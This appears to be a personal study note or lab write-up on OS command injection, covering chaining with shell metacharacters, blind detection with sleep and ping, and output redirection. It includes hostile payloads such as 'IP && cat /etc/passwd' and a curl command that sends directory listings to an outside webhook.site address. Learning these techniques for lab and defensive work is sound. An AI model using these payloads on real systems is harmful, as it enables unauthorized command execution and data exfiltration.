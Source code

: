 <h1>What is it</h1>

Injecting system commands into input in ways not allowed to like bypassing blacklists or chaining commands.
In Command Injection, the attacker extends the default functionality of the application, which execute system commands, without the necessity of injecting code.
Eg: If there is an input for ping tester with input box try doing ```IP && cat /etc/passwd``` if already identified that underlying is Linux.

![Ex_ping](ping.png)

Now this can show output or not. Depending on that have to try differen payloads to see if it is executing but just not showing output.

<h1>Baby steps</h1>

Identify user controlled input fields and try to get a mental map of how the application functions. 

If output displayed:
Try chaining commmands using shell meta characters.

if going in blind methods you can look into are:
Using ``` <safe_input> && sleep 10 & ``` (Only for linux) command or ```<safe_input> && ping -c 10 127.0.0.1 & ```(Inter OS, eg is for linux) and see if output adheres to the time delay.
If it does you can then try to use other methods to exfiltrate more data like try to run `whoami`(not preffered way as chaining difficult) or $(whoami) and rediect the output.
Placing the additional command separator & after the injected command is useful because it separates the injected command from whatever follows the injection point. 
This reduces the chance that what follows will prevent the injected command from executing. 

Note:(Only For Linux)

When you add an ampersand (&) at the end of the command like ```ping 127.0.0.1 &```, 
it means you are running the command in the background. This allows you to continue using the terminal for other commands while ping is still running.

![redirection](redirection.png)

https://www.makeuseof.com/what-are-linux-metacharacters/
https://www.bogotobogo.com/Linux/linux_shell_programming_tutorial7_metacharacters_quotes.php
https://github.com/payloadbox/command-injection-payload-list


<h1>Lab1 Simple Case</h1>
Directly executed using eval and the entire raw output is displayed back.
Can just chain commmand we want to run using shell meta characters and end with '#'(for BASH) to prevent 
interference with remaining part of the script running the commands. With this we can run anything as we can get path names,file names anything as output displayed.


<h1>Lab2 Simple Blind</h1>
Just used sleep on different parameters you control to check which one delays response and that is then confirmed to be vulnerable.




<h1>Lab3&4&5 Blind Redirection</h1>
If need output of a command and its blind injection:

1. Find vulnerable parameter

2. a) Try to find a writeable place where you can create a file and can also access that file using some other request.

2. b) Perform the injection and redirect output using '>'(Will create file or overwrite if already exists) or '>>'(Will create file or append to if already exists).
   
3. If cannot write use webhook.site . Ways to do : https://medium.com/@excybex/this-blog-explores-the-potential-misuse-of-webhook-site-89baecd7704b.
   
Eg: ```dir=$(ls); curl -s -X POST https://webhook.site/f3082654-6152-471b-b960-48dfd6fce02f --data-raw $dir```

![Webhook example](webhook.png)

<h2>Scripting Note:</h2>
Try to output useful error messages if script fails for some reason.
Check for auth tokens and get them before sending actual request.
Can set proxy to BURP interceptor ~~so that can record the responses and know if it worked or not~~ or just print the response.text in the script.
